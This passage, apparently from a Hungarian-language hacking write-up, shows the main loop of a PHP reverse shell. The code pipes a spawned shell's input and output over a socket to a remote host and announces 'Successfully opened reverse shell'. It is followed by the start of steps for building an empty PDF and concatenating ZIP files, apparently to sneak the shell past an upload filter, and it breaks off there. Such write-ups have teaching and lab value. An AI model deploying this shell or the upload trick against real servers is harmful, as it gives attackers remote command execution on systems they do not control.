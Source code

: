 ```bash
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>

```
2. Csinálj egy üres PDF-et (pl. `test.pdf`)
3. ZIP-ek összefűzése:
